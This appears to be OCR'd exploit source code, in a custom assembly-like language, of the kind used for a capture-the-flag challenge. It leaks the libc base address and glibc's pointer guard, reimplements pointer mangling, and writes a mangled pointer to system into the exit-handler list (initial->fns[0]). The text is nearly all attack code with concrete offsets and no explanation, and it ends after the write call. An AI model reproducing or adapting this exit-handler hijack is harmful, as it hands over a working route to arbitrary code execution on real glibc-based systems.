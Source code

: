 ```asm
// r0: pointer
// pointer guard is loaded from [pointer_guard]
// guarantee: does not modify registers except r0

int64 r0 = r0 ^ [pointer_guard]
int64 r0 = rotate(r0, 17)
return
_mangle_pointer end


_main function public

// leak libc addr
int64 r0 = 0x31fc08
int64 r1 = address([libc_addr])
int64 [r1] = 0
int64 r2 = 6
call _leak

// print libc base addr for debug purposes
int64 r16 = [libc_addr]
int64 r16 = r16 - 0x3c8 // libc base
int64 [libc_addr] = r16
int64 r1 = address([parlist])
int64 [r1] = r16
int64 r0 = address([print_hex])
call _printf


// leak pointer guard
int64 r0 = 0x105ff0 - 0x4890 // pointer guard offset
int64 r1 = [libc_addr]
int64 r1 = r1 - 0x4890 // pointer guard addr
int64 r2 = address([pointer_guard])
int64 r3 = 9
call _leak_efficient

// print pointer guard to stdout for debug purposes
int64 r2 = [pointer_guard]
int64 r1 = address([parlist])
int64 [r1] = r2
int64 r0 = address([print_hex])
call _printf

// overwrite exit functions

int64 r24 = [libc_addr]
int64 r25 = r24 + 0x21bf00 // initial addr


// put system into initial->fns[0]
int64 r0 = r24 + 0x50d70 // system addr
call _mangle_pointer

int64 [tmp_mem + 8] = r0
int64 r0 = 3 // ef_at
int64 [tmp_mem] = r0
int64 r0 = r25 + 0x10
int64 r1 = address([tmp_mem])
int64 r2 = 16
call _write


```